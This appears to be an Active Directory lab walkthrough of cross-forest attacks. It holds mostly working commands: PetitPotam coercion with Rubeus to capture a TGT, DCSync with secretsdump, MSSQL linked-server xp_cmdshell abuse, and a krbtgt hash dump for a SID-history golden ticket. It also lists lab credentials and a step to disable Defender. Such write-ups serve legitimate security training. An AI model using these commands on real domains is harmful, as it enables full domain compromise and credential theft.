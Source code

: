 ### Essos to sevenkingdoms : group accros_thenarrowsea
### Use unconstrained delegation
- From kingslanding we can rule the essos domain with unconstrained delegation
- We connect to kingslanding with rdp as an administrator
`xfreerdp /d:sevenkingdoms.local /u:cersei.lannister /p:'il0vejaime' /v:192.168.56.10 /size:80%  /cert-ignore`

- For more simplicity we will disable defender
- Now we launch rubeus.exe to wait for a TGT of the essos forest.

`.\Rubeus.exe monitor /filteruser:MEEREEN$ /interval:1`

- And we run petitpotam on our linux console to force a coerce of meereen to kingslanding.
`petitpotam.py -u arya.stark -p Needle -d north.sevenkingdoms.local kingslanding.sevenkingdoms.local meereen.essos.local`

- And we run petitpotam on our linux console to force a coerce of meereen to kingslanding.
`petitpotam.py -u arya.stark -p Needle -d north.sevenkingdoms.local kingslanding.sevenkingdoms.local meereen.essos.local`

- And we get the TGT of meereen !

- Now we can copy it to linux (delete space and \n) and Decode the base64 and save it to a kirbi file
```
base64 -d rubeus.b64 > meereen.kirbi

# Convert it to ccache and use it to dcsync essos.local
ticketConverter.py meereen.kirbi meereen.ccache 
export KRB5CCNAME=/workspace/trusts/unconstrained/meereen.ccache
secretsdump -k -no-pass -just-dc-ntlm essos.local/'MEEREEN$'@meereen.essos.local
```

### Mssql Trusted link
```
python3 mssqlclient.py -windows-auth north.sevenkingdoms.local/jon.snow:iknownothing@castelblack.north.sevenkingdoms.local

enum_links
use_link BRAAVOS
enable_xp_cmdshell
xp_cmdshell whoami
```

### Golden ticket with external forest, sid history ftw 
This attack can be done only because SID history is enabled on the sevenkingdoms->essos trust

Find the domain sid with lookupsid.py
- essos SID : S-1-5-21-2203133648-1386395927-1390703624
- sevenkingdoms SID: S-1-5-21-1409754491-4246775990-3914137275

```
secretsdump -just-dc-user 'essos/krbtgt' essos.local/daenerys.targaryen:'BurnThemAll!'@192.168.56.12
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:e58cf01ba6cc645da9f7ab1f28fc3934:::
...
```
